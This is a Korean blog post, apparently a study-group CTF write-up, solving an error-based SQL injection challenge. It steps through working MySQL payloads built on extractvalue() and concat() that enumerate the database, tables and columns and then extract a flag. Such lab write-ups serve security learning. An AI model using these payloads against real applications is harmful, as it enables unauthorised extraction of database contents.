 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: Error Based SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB]
---
```


# 회고
* Error-Based SQL Injection은 SQL의 Error 문구를 이용하여 데이터를 추출하는 공격 방식이다.
* 데이터베이스 종류마다 공격 방식이 다르다.
* MySQL에서는 공격 방식이 크게 두 가지가 있는데, 그 중 하나가 XPath를 이용한 공격이다.
    extractvalue()함수를 이용한다.
  
**[이론 설명 포스트](/Error_Based_SQL_Injection)**

# Error Based SQL Injection
## START
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-1.png?raw=true)
1. **normaltic'**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-2.png?raw=true)
1. **normaltic' and extractvalue('1', (concat(0x3a, 'test'))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-3.png?raw=true)

## DATABASE
1. **normaltic' and extractvalue('1', (concat(0x3a, database()))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)
-> 💡 DB의 이름이 errSqli라는 것을 알았다

## TABLE
1. **normaltic' and extractvalue('1', (concat(0x3a, select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-29-1.png?raw=true)
-> 👀 문법 오류가 발생했다.  
-> 🙄 문법 오류가 왜 발생한 건지 잘 모르겠다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, select database()))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-29-2.png?raw=true)
-> 👀 문법 오류가 발생했다.  
-> 👀 [위쪽](#database)에서는 SELECT를 안 쓰고 DATABASE()만 썼더니 나왔다.  
-> 🤔 SELECT를 쓸 때는 괄호를 한 번 더 감싸줘야 하는걸까?  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select database())))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)
-> 💡 괄호로 SELECT문을 한 번 더 감싸줬더니 결과가 나왔다.  
-> 🤔 TABLE 이름 가져오는 것도 마찬가지고 괄호로 한 번 감싸면 될 것 같다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-5.png?raw=true)
-> 💡 첫 번째 TABLE 이름이 flagTable이라고 한다.  
-> 🤔 혹시 다른 TABLE이 더 있을까?  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(table_name) from information_schema.tables where table_schema = 'errSqli')))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-6.png?raw=true)
-> 💡 TABLE 개수가 3개라고 한다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 1, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-7.png?raw=true)
-> 💡 두 번째 TABLE 이름은 member였다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 2, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-8.png?raw=true)
-> 💡 두 번째 TABLE 이름은 plusFlag_Table였다.  
-> 🤔 flagTable 먼저 확인하고 안 되면 plusFlag_Table 확인하면 될 것 같다.  

## COLUMN
💡 이제부터는 개수 먼저 확인해야겠다.  
1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(column_name) from information_schema.columns where table_name = 'flagTable')))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-9.png?raw=true)
-> 💡 flagTable의 컬럼 개수는 2개라고 한다.  
-> 💡 하나씩 컬럼 이름을 확인해보겠다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1)))) **#
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-10.png?raw=true)
-> 💡 첫 번째는 idx였다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)))) **#
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-11.png?raw=true)
-> 💡 두 번째는 flag였다.  

## DATA
💡 마찬가지로 개수 먼저 확인했다.  
1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(flag) from flagTable)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-12.png?raw=true)
-> 💡 데이터는 총 1개이다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select flag from flagTable)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-13.png?raw=true)
-> 😎 찾았다!  